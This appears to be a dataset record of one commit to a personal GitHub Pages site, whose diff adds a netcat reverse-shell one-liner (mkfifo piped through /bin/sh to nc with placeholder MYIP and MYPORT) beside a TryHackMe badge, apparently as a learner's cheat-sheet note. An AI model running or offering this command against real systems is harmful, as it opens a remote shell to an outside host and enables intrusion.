

Before and after one commit to gsizer/gsizer.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add netcat reverse shell

```diff
--- a/index.html
+++ b/index.html
@@ -4,5 +4,6 @@
 </head>
 <body>
 	<script src="https://tryhackme.com/badge/244516"></script>
+	<p>netcat reverse shell<pre>rm -f /tmp/s; mkfifo /tmp/s; /bin/sh -i 2>&1 0</tmp/s | nc MYIP MYPORT 1>/tmp/s</pre></p>
 </body>
 </html>
```
